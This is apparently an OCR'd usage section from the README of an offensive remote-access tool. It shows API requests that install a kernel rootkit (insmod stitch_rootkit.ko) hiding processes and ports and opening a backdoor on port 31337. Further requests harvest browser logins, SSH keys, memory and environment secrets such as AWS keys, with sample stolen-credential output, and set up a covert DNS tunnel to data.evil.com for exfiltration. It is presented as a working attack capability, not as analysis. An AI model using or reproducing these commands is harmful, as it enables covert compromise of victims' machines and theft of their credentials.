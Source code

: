 
## 💻 USAGE EXAMPLES

### Deploy Rootkit:
```python
# Backend API call
POST /api/target/TARGET-001/action
{
  "action": "rootkit",
  "hide_pids": [1234, 5678],
  "hide_ports": [4433, 31337],
  "backdoor_port": 31337
}

# Payload executes
cmd_install_rootkit() → insmod stitch_rootkit.ko → Hide process
```

### Harvest Credentials:
```python
# One click in dashboard triggers
POST /api/target/TARGET-001/action
{
  "action": "harvest",
  "targets": ["browser", "ssh", "memory", "env"],
  "exfil_method": "dns"
}

# Returns
{
  "credentials": [
    {"type": "ssh_key", "user": "admin", "file": "id_rsa"},
    {"type": "env", "var": "AWS_SECRET_KEY=..."},
    {"type": "browser", "browser": "chrome", "count": 47}
  ],
  "count": 49
}
```

### Setup DNS Tunnel:
```python
# Covert channel activation
POST /api/target/TARGET-001/action
{
  "action": "dns_tunnel",
  "server": "8.8.8.8",
  "domain": "data.evil.com",
  "mode": "backup"
}

# All future exfiltration uses DNS queries
```

---